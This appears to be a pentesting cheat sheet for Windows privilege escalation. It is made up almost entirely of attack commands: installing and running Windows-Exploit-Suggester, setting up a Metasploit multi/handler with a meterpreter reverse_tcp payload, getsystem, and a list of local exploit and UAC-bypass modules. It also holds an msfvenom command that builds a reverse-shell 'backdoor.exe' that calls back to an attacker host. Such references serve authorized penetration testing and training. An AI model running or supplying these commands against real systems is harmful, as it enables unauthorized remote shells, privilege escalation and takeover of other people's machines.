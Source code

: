 ```bash
## Windows-Exploit-Suggester Install
mkdir Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py
# ^^ This is a python3 version of the script

cd Windows-Exploit-Suggester
python ./windows-exploit-suggester.py --update
pip install xlrd --upgrade

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win2008r2-systeminfo.txt
```

```bash
## METASPLOIT
## Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

use post/multi/recon/local_exploit_suggester
set SESSION <HANDLER_SESSION_NUMBER>

## MsfConsole Meterpreter Privesc
getprivs
getsystem

# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```

#### UAC

```bash
# UAC - UACME

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > backdoor.exe

## METASPLOIT - Listening
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
```